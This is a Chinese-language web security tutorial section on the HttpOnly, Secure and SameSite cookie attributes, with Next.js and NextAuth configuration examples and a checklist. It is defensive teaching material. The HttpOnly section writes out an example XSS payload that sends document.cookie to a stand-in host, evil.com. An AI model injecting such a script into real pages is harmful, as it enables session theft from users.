

# 6.2.3 Cookie 安全：HttpOnly/Secure/SameSite 屬性

## 一句話破題

Cookie 的三個安全屬性——HttpOnly、Secure、SameSite——是防禦 XSS 和 CSRF 攻擊的第一道防線。

## Cookie 安全屬性詳解

### HttpOnly：防止 JavaScript 讀取

```typescript
// 設置 HttpOnly 後，document.cookie 無法讀取
Set-Cookie: sessionId=abc123; HttpOnly
```

**作用**：阻止 XSS 攻擊者通過 JavaScript 竊取 Cookie

```javascript
// 如果沒有 HttpOnly，攻擊者可以：
<script>
  // 竊取用戶 cookie 發送到攻擊者服務器
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

// 設置 HttpOnly 後，document.cookie 返回空
```

### Secure：僅通過 HTTPS 傳輸

```typescript
Set-Cookie: sessionId=abc123; Secure
```

**作用**：防止 Cookie 在 HTTP 明文傳輸中被竊聽



### SameSite：防止跨站請求攜帶

| 值 | 行爲 | 適用場景 |
|----|------|----------|
| `Strict` | 完全禁止跨站攜帶 | 敏感操作（銀行、支付） |
| `Lax` | 允許導航攜帶，禁止 POST | 默認推薦 |
| `None` | 允許跨站攜帶（需配合 Secure） | 跨站集成場景 |

```typescript
// Strict：最嚴格，任何跨站請求都不攜帶
Set-Cookie: sessionId=abc123; SameSite=Strict

// Lax：允許從外站鏈接點擊過來時攜帶
Set-Cookie: sessionId=abc123; SameSite=Lax

// None：允許跨站請求攜帶（必須配合 Secure）
Set-Cookie: sessionId=abc123; SameSite=None; Secure
```

## 實際配置示例

### Next.js API Route

```typescript
// app/api/login/route.ts
import { NextResponse } from 'next/server'

export async function POST(request: Request) {
  const response = NextResponse.json({ success: true })
  
  response.cookies.set('sessionId', 'abc123', {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'lax',
    maxAge: 60 * 60 * 24, // 1 天
    path: '/',
  })
  
  return response
}
```

### NextAuth 配置

```typescript
export const authOptions: NextAuthOptions = {
  cookies: {
    sessionToken: {
      name: 'next-auth.session-token',
      options: {
        httpOnly: true,
        secure: process.env.NODE_ENV === 'production',
        sameSite: 'lax',
        path: '/',
      },
    },
  },
}
```

## 常見場景與配置策略

### 場景一：普通 Web 應用

```typescript
// 推薦配置
{
  httpOnly: true,
  secure: true,
  sameSite: 'lax',
}
```

### 場景二：需要跨域的 API

```typescript
// 如果前端和後端在不同域
{
  httpOnly: true,
  secure: true,
  sameSite: 'none', // 必須配合 secure
}
```

### 場景三：嵌入 iframe 的應用

```typescript
// 被其他網站嵌入時需要
{
  httpOnly: true,
  secure: true,
  sameSite: 'none',
}
```

## Cookie 安全檢查工具

在瀏覽器開發者工具中檢查 Cookie 設置：

1. 打開 DevTools → Application → Cookies
2. 檢查每個 Cookie 的屬性列
3. 確保敏感 Cookie 都有正確的安全屬性

## 常見錯誤

### 錯誤 1：開發環境使用 Secure

```typescript
// ❌ 開發環境使用 Secure 會導致 Cookie 無法設置
secure: true // localhost 是 http，不是 https

// ✅ 根據環境動態設置
secure: process.env.NODE_ENV === 'production'
```

### 錯誤 2：SameSite=None 未配合 Secure

```typescript
// ❌ 瀏覽器會拒絕設置
sameSite: 'none'

// ✅ 必須配合 Secure
sameSite: 'none',
secure: true
```

::: tip Cookie 安全配置清單
1. [ ] 所有敏感 Cookie 設置 HttpOnly
2. [ ] 生產環境設置 Secure
3. [ ] 根據場景選擇合適的 SameSite 值
4. [ ] 設置合理的過期時間
5. [ ] 限制 Cookie 的 Path 範圍
:::
